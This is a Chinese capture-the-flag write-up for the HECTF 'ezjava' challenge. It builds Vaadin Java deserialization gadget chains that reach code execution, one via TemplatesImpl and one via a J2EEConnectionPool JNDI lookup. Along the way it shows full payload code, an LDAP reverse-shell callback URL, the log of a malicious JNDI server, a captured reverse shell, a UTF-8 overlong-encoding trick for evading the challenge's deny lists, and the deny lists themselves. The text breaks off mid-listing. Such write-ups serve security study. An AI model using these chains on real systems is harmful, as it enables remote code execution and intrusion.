








# 从HECTF ezjava 入手 Vaadin 调用链挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/16064  
> **文章ID**: 16064

---

# 从HECTF ezjava 入手 Vaadin 调用链挖掘

## 前言

想着蹭脑子里面还有部分思路解题过程，赶紧来写写，这里主要学习学习思路,然后和试错的过程，感觉碰壁的过程思路才是该学的，直接成功的一条路学的不过是一个知识点

## Vaadin 反序列化分析

这里就简单分析了

这个依赖似乎不是很火，第一次听说  
环境搭建的话

```
<dependency>
            <groupId>com.vaadin</groupId>
            <artifactId>vaadin-server</artifactId>
            <version>7.7.14</version>
        </dependency>
        <dependency>
            <groupId>com.vaadin</groupId>
            <artifactId>vaadin-shared</artifactId>
            <version>7.7.14</version>
        </dependency>

```

我们看到直接看到原先的 sink 点

NestedMethodProperty 类中的 getValue 方法

```
public T getValue() {
    try {
        Object object = instance;
        for (Method m : getMethods) {
            object = m.invoke(object);
            if (object == null) {
                return null;
            }
        }
        return (T) object;
    } catch (final Throwable e) {
        throw new MethodException(this, e);
    }
}

```

object 可以控制，Method 是从 getMethod 里面循环的

然后寻找 getMethod 的来源

是存在于 initialize 方法

```
private void initialize(Class<?> beanClass, String propertyName)
        throws IllegalArgumentException {

    List<Method> getMethods = new ArrayList<Method>();

    String lastSimplePropertyName = propertyName;
    Class<?> lastClass = beanClass;

    // first top-level property, then go deeper in a loop
    Class<?> propertyClass = beanClass;
    String[] simplePropertyNames = propertyName.split("\\.");
    if (propertyName.endsWith(".") || 0 == simplePropertyNames.length) {
        throw new IllegalArgumentException(
                "Invalid property name '" + propertyName + "'");
    }
    for (int i = 0; i < simplePropertyNames.length; i++) {
        String simplePropertyName = simplePropertyNames[i].trim();
        if (simplePropertyName.length() > 0) {
            lastSimplePropertyName = simplePropertyName;
            lastClass = propertyClass;
            try {
                Method getter = MethodProperty.initGetterMethod(
                        simplePropertyName, propertyClass);
                propertyClass = getter.getReturnType();
                getMethods.add(getter);
            } catch (final java.lang.NoSuchMethodException e) {
                throw new IllegalArgumentException("Bean property '"
                        + simplePropertyName + "' not found", e);
            }
        } else {
            throw new IllegalArgumentException(
                    "Empty or invalid bean property identifier in '"
                            + propertyName + "'");
        }
    }

    // In case the get method is found, resolve the type
    Method lastGetMethod = getMethods.get(getMethods.size() - 1);
    Class<?> type = lastGetMethod.getReturnType();

    // Finds the set method
    Method setMethod = null;
    try {
        // Assure that the first letter is upper cased (it is a common
        // mistake to write firstName, not FirstName).
        lastSimplePropertyName = SharedUtil
                .capitalize(lastSimplePropertyName);

        setMethod = lastClass.getMethod("set" + lastSimplePropertyName,
                new Class[] { type });
    } catch (final NoSuchMethodException skipped) {
    }

    this.type = (Class<? extends T>) convertPrimitiveType(type);
    this.propertyName = propertyName;
    this.getMethods = getMethods;
    this.setMethod = setMethod;
}

```

简单总结就是类的getter 方法，有就添加到里面

发现是在

```
public NestedMethodProperty(Object instance, String propertyName) {
    this.instance = instance;
    initialize(instance.getClass(), propertyName);
}

```

实例化对象的时候调用

然后寻找如何调用 getvalue 方法  
是在PropertysetItem 类的 toString 方法

```
public String toString() {
    String retValue = "";
    Iterator<?> i = this.getItemPropertyIds().iterator();

    while(i.hasNext()) {
        Object propertyId = i.next();
        retValue = retValue + this.getItemProperty(propertyId).getValue();
        if (i.hasNext()) {
            retValue = retValue + " ";
        }
    }

    return retValue;
}

```

关键是控制 this.getItemProperty(propertyId)值

```
public Property getItemProperty(Object id) {
    return (Property)this.map.get(id);
}

```

从 map 取出的值，

只需要控制 this-map 键值对即可  
而addItemProperty 方法正中下怀

```
public boolean addItemProperty(Object id, Property property) {
    if (id == null) {
        throw new NullPointerException("Item property id can not be null");
    } else if (this.map.containsKey(id)) {
        return false;
    } else {
        this.map.put(id, property);
        this.list.add(id);
        this.fireItemPropertySetChange();
        return true;
    }
}

```

payload 如下

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.vaadin.data.util.NestedMethodProperty;
import com.vaadin.data.util.PropertysetItem;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import sun.misc.BASE64Encoder;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;

public class Vaadin {
    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{getTemplates()});
        setFieldValue(templates, "_name", "ooyywwll");
        setFieldValue(templates, "_tfactory", null);
        PropertysetItem pItem = new PropertysetItem();
        NestedMethodProperty<?> nestedMethodProperty=new NestedMethodProperty<>(templates,"outputProperties");
        pItem.addItemProperty("test",nestedMethodProperty);
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException("test");
        setFieldValue(badAttributeValueExpException,"val",pItem);
        String result=serialize(badAttributeValueExpException);
        unserialize(result);


    }

    public static String serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream=new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static void unserialize(String base) throws IOException, ClassNotFoundException {
        byte[] result=Base64.getDecoder().decode(base);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(result);
        ObjectInputStream objectInputStream=new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
    public static byte[] getTemplates() throws CannotCompileException, NotFoundException, IOException, CannotCompileException, IOException, NotFoundException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();
    }
    public static void setFieldValue(Object object,String field,Object arg) throws NoSuchFieldException, IllegalAccessException {
        Field f=object.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(object,arg);
    }
}

```



## 源码分析

下载附件得到源码，先简单审计一波

MyObjectInputStream

```
package com.example.easyjava.challenge;

import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;

/* loaded from: MyObjectInputStream.class */
public class MyObjectInputStream extends ObjectInputStream {
    public MyObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    @Override // java.io.ObjectInputStream
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName().toLowerCase();
        String[] denyClasses = {"java.net.InetAddress", "org.apache.commons.collections.Transformer", "org.apache.commons.collections.functors", "C3P0", "Jackson", "NestedMethodProperty", "TemplatesImpl"};
        for (String str : denyClasses) {
            String denyClass = str.toLowerCase();
            if (className.contains(denyClass)) {
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
            }
        }
        return super.resolveClass(desc);
    }
}

```

金典目前无懈可击的 waf

然后还有 waf  
normal

```
package com.example.easyjava.challenge;

import java.io.UnsupportedEncodingException;

/* loaded from: normal.class */
public class normal {
    public normal(String data) throws UnsupportedEncodingException {
    }

    public boolean blacklist(String data) {
        String[] blacklist = {"BadAttributeValueExpException", "Collections$UnmodifiableList", "PropertysetItem", "AbstractClientConnector", "Enum", "SQLContainer", "LinkedHashMap", "TableQuery", "AbstractTransactionalQuery", "J2EEConnectionPool", "DefaultSQLGenerator"};
        for (String list : blacklist) {
            if (data.contains(list)) {
                return false;
            }
        }
        return true;
    }
}

```

首先我就在想，出题人如果这样出 waf 的话为什么不直接加道上面，而且上面还是强 waf，就是为了让你去绕啊

怎么绕下面慢慢说  
漏洞代码

```
package com.example.easyjava.Controller;

import com.example.easyjava.challenge.MyObjectInputStream;
import com.example.easyjava.challenge.normal;
import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.Base64;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;

@Controller
public class IndexController {
    public static String string;

    @GetMapping({"/"})
    public String main() throws Exception {
        return "redirect:/index.html";
    }

    @PostMapping({"/file"})
    public String index(@RequestParam String data) throws Exception {
        System.out.println(data);
        if (data == null || data.equals("")) {
            return "redirect:/error.html";
        }
        string = data;
        deserialize(string);
        return "redirect:/index.html";
    }

    public Object deserialize(String base64data) {
        try {
            byte[] decode = Base64.getDecoder().decode(base64data.toString().replace("\r\n", ""));
            String payload = new String(decode);
             if (new normal(payload).blacklist(payload)) {
                ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(Base64.getDecoder().decode(base64data.toString().replace("\r\n", "")));
                ObjectInputStream ois = new MyObjectInputStream(byteArrayInputStream);
                ois.readObject();
                ois.close();
                return ois;
            }
            return "redirect:/error.html";
        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }
}

```

不说了，反序列化漏洞

## 解题过程

### 二次反序列化？

第一想的包是二次反序列化的，而且最明显的是在于没有过滤  
signobject

因为我们的 normal 的 waf 是可以这样绕过的

然后就是选择调用链的过程了，首先依赖





熟悉的只有 cc 链和 jackson 的打原生反序列化链的

cc 链被强 waf 禁用得差不多了，而且不能使用 TemplatesImpl

然后就是学都没有学过的 Vaadin 依赖，当然刚刚学过了

一开始眼瞎，没有看到禁用了 jackson，还说 jackson+signobject 二次反序列化打个 jndi 呢

构造半天 paylaod，最后直接无情 waf 了

换思路，就使用 Vaadin 依赖，但是再去打 rce 肯定是不可能了 NestedMethodProperty 没了

首先我们需要明白 NestedMethodProperty 的作用才方便如何去寻找相关的利用

它的作用无非是作为我们的 sink 点，但是不说非这个不可，理解了原理后，只要是实现 Property 的都类，而且 getValue 方法可能存在恶意利用的都可以

然后网上搜索了一些文章  
<https://xz.aliyun.com/t/15715?time__1311=GqjxnQiQoQuDlxGgpDy07G8YOKY5qqDObAeD>

正好啊

这里我们看到 AbstractSelect 的 getValue 方法



乍一看没有什么特别明显的  
而实际也是这样，这里就直接分析发现者的思路了，很难理解，作者是怎么找到的?？  
其中重点是

```
this.items.containsId(retValue)

```

items 可以控制，retValue 也是

然后看到 SQLContainer 类的 containsId 方法

```
public boolean containsId(Object itemId) {
    if (itemId == null) {
        return false;
    } else if (this.cachedItems.containsKey(itemId)) {
        return true;
    } else {
        Iterator var2 = this.addedItems.iterator();

        while(var2.hasNext()) {
            RowItem item = (RowItem)var2.next();
            if (item.getId().equals(itemId)) {
                return this.itemPassesFilters(item);
            }
        }

        if (this.removedItems.containsKey(itemId)) {
            return false;
        } else if (itemId instanceof ReadOnlyRowId) {
            int rowNum = ((ReadOnlyRowId)itemId).getRowNum();
            return rowNum >= 0 && rowNum < this.size;
        } else {
            if (itemId instanceof RowId && !(itemId instanceof TemporaryRowId)) {
                try {
                    return this.queryDelegate.containsRowWithKey(((RowId)itemId).getId());
                } catch (Exception var4) {
                    getLogger().log(Level.WARNING, "containsId query failed", var4);
                }
            }

            return false;
        }
    }
}

```

有点小长，重点是

```
return this.queryDelegate.containsRowWithKey(((RowId)itemId).getId());

```

queryDelegate 可以控制，是我们的 TableQuery 类

```
public boolean containsRowWithKey(Object... keys) throws SQLException {
    ArrayList<Container.Filter> filtersAndKeys = new ArrayList();
    if (this.filters != null) {
        filtersAndKeys.addAll(this.filters);
    }

    int ix = 0;

    for(Iterator var4 = this.primaryKeyColumns.iterator(); var4.hasNext(); ++ix) {
        String colName = (String)var4.next();
        filtersAndKeys.add(new Compare.Equal(colName, keys[ix]));
    }

    StatementHelper sh = this.sqlGenerator.generateSelectQuery(this.getFullTableName(), filtersAndKeys, this.orderBys, 0, 0, "*");
    boolean shouldCloseTransaction = false;
    if (!this.isInTransaction()) {
        shouldCloseTransaction = true;
        this.beginTransaction();
    }

    ResultSet rs = null;

    boolean var8;
    try {
        rs = this.executeQuery(sh);
        boolean contains = rs.next();
        var8 = contains;
    } finally {
        try {
            if (rs != null) {
                this.releaseConnection((Connection)null, rs.getStatement(), rs);
            }
        } finally {
            if (shouldCloseTransaction) {
                this.commit();
            }

        }

    }

    return var8;
}

```

有点 sql 注入连接的味道了  
看到 beginTransaction 方法

```
public void beginTransaction() throws UnsupportedOperationException, SQLException {
    if (this.isInTransaction()) {
        throw new IllegalStateException("A transaction is already active!");
    } else {
        this.activeConnection = this.connectionPool.reserveConnection();
        this.activeConnection.setAutoCommit(false);
    }
}

```

这里调用 connectionPool 的 reserveConnection 方法  
实现两个



这里拿 J2EEConnectionPool 来说了，也就是我们最后的 sink 点

```
public Connection reserveConnection() throws SQLException {
    Connection conn = this.getDataSource().getConnection();
    conn.setAutoCommit(false);
    return conn;
}

```

看着 getDataSource

```
private DataSource getDataSource() throws SQLException {
    if (this.dataSource == null) {
        this.dataSource = this.lookupDataSource();
    }

    return this.dataSource;
}

```

lookupDataSource

```
private DataSource lookupDataSource() throws SQLException {
    try {
        InitialContext ic = new InitialContext();
        return (DataSource)ic.lookup(this.dataSourceJndiName);
    } catch (NamingException var2) {
        throw new SQLException("NamingException - Cannot connect to the database. Cause: " + var2.getMessage());
    }
}

```

jndi 一眼顶真了哥们

paylaod 构造

兄弟们慢慢调吧，我反正直接复制作者的 paylaod 直接报错....

然后 payload

```
import com.vaadin.data.util.PropertysetItem;
import com.vaadin.data.util.sqlcontainer.RowId;
import com.vaadin.data.util.sqlcontainer.SQLContainer;
import com.vaadin.data.util.sqlcontainer.connection.J2EEConnectionPool;
import com.vaadin.data.util.sqlcontainer.query.TableQuery;
import com.vaadin.data.util.sqlcontainer.query.generator.DefaultSQLGenerator;
import com.vaadin.ui.ListSelect;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import com.example.Utils.ReflectionUtil;
import javassist.NotFoundException;
import sun.reflect.ReflectionFactory;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Base64;

public class Vaadin {
    public static void main(String[] args) throws Exception {
        J2EEConnectionPool j2EEConnectionPool=new J2EEConnectionPool("ldap://ip:1389/Basic/ReverseShell/ip/2333");
        Class<TableQuery> clazz3 = (Class<TableQuery>) Class.forName("com.vaadin.data.util.sqlcontainer.query.TableQuery");
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz3,  Object.class.getConstructor());
        TableQuery tableQuery= (TableQuery) sc.newInstance();
        ReflectionUtil.setField(tableQuery, "primaryKeyColumns", new ArrayList<>());
        ReflectionUtil.setField(tableQuery, "fullTableName", "test");
        ReflectionUtil.setField(tableQuery, "sqlGenerator", new DefaultSQLGenerator());
        setFieldValue(tableQuery,"connectionPool", j2EEConnectionPool);
        Class<SQLContainer> clazz = (Class<SQLContainer>) Class.forName("com.vaadin.data.util.sqlcontainer.SQLContainer");
        Constructor<?> a = clazz.getDeclaredConstructor();
        a.setAccessible(true);
        SQLContainer sql= (SQLContainer) a.newInstance();
        setFieldValue(sql,"queryDelegate",tableQuery);
        ListSelect listSelect = new ListSelect();
        RowId id = new RowId("id");
        setFieldValue(listSelect, "value", id);
        setFieldValue(listSelect, "multiSelect", true);
        setFieldValue(listSelect, "items", sql);
        PropertysetItem propertysetItem = new PropertysetItem();
        propertysetItem.addItemProperty("key", listSelect);
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException("test");
        setFieldValue(badAttributeValueExpException,"val",propertysetItem);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        UTF8_overlong_encode encode = new UTF8_overlong_encode(baos);
        encode.writeObject(badAttributeValueExpException);
        System.out.println(new String(baos.toByteArray()));
        System.out.println(Utils.Base64_Encode(baos.toByteArray()));

    }

//    public static String serialize(Object object) throws IOException {
//        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
//        UTF8_overlong_encode encode = new UTF8_overlong_encode(byteArrayOutputStream);
//        encode.writeObject(object);
//        System.out.println(new String(byteArrayOutputStream.toByteArray()));
//        System.out.println(Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray()));
//        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
//    }

    public static void unserialize(String base) throws IOException, ClassNotFoundException {
        byte[] result=Base64.getDecoder().decode(base);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(result);
        ObjectInputStream objectInputStream=new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
    public static byte[] getTemplates() throws CannotCompileException, NotFoundException, IOException, CannotCompileException, IOException, NotFoundException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();
    }
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {
        Field f = null;
        Class<?> currentClass = object.getClass();

        // 循环查找当前类及其父类
        while (currentClass != null) {
            try {
                // 尝试在当前类中查找字段
                f = currentClass.getDeclaredField(field);
                break;  // 找到字段后退出循环
            } catch (NoSuchFieldException e) {
                // 如果当前类中没有找到，继续查找父类
                currentClass = currentClass.getSuperclass();
            }
        }

        if (f != null) {
            f.setAccessible(true);  // 设置为可访问
            f.set(object, arg);     // 设置字段值
        } else {
            throw new NoSuchFieldException("Field " + field + " not found in class hierarchy.");
        }
    }


}

```

原没有 UTF-8 编码的找不到了

这里是准备绕过的，先我是把那个 waf 去了  
然后一波尝试 jndi 看自己思路有没有问题

```
root@VM-16-17-ubuntu:/# java -jar JNDIMap-0.0.1.jar -i ip 
[RMI] Listening on ip:1099
[LDAPS] jks file is not specified, skipping to start LDAPS server
[HTTP] Listening on ip:3456
[LDAP] Listening on ip:1389

[LDAP] Received query: /Basic/ReverseShell/ip/2333
[ReverseShell]: Host: ip Port: 2333
[Reference] Remote codebase: http://49.232.222.195:3456/
[LDAP] Sending Reference object (remote codebase)
[HTTP] Receive request: /Exploit_Cgl9K1wnLftF.class

```

先是服务器上起一个服务的恶意代码

尝试一下看看思路

```
root@VM-16-17-ubuntu:~# ncat -lvp 2333
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2333
Ncat: Listening on 0.0.0.0:2333
Ncat: Connection from 182.150.122.31.
Ncat: Connection from 182.150.122.31:33185.
Microsoft Windows [�汾 10.0.22631.4460]
(c) Microsoft Corporation����������Ȩ����

F:\IntelliJ IDEA 2023.3.2\javascript\CTF\HECTFezjava>ls
ls
'ls' �����ڲ����ⲿ���Ҳ���ǿ����еij���
���������ļ���

F:\IntelliJ IDEA 2023.3.2\javascript\CTF\HECTFezjava>

```

包没有问题的

然后就是一波 utf8 绕过

emmmm 原理我是大概明白，但是你说构造一个脚本的话网上就由

```
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
/**
 * 参考p神：https://mp.weixin.qq.com/s/fcuKNfLXiFxWrIYQPq7OCg
 * 参考1ue：https://t.zsxq.com/17LkqCzk8
 * 实现：参考 OObjectOutputStream# protected void writeClassDescriptor(ObjectStreamClass desc)方法
 */
public class UTF8_overlong_encode extends ObjectOutputStream {

    public UTF8_overlong_encode(OutputStream out) throws IOException {
        super(out);
    }

    private static HashMap<Character, int[]> map;
    private static Map<Character,int[]> bytesMap=new HashMap<>();

    static {
        map = new HashMap<>();
        map.put('.', new int[]{0xc0, 0xae});
        map.put(';', new int[]{0xc0, 0xbb});
        map.put('$', new int[]{0xc0, 0xa4});
        map.put('[', new int[]{0xc1, 0x9b});
        map.put(']', new int[]{0xc1, 0x9d});
        map.put('a', new int[]{0xc1, 0xa1});
        map.put('b', new int[]{0xc1, 0xa2});
        map.put('c', new int[]{0xc1, 0xa3});
        map.put('d', new int[]{0xc1, 0xa4});
        map.put('e', new int[]{0xc1, 0xa5});
        map.put('f', new int[]{0xc1, 0xa6});
        map.put('g', new int[]{0xc1, 0xa7});
        map.put('h', new int[]{0xc1, 0xa8});
        map.put('i', new int[]{0xc1, 0xa9});
        map.put('j', new int[]{0xc1, 0xaa});
        map.put('k', new int[]{0xc1, 0xab});
        map.put('l', new int[]{0xc1, 0xac});
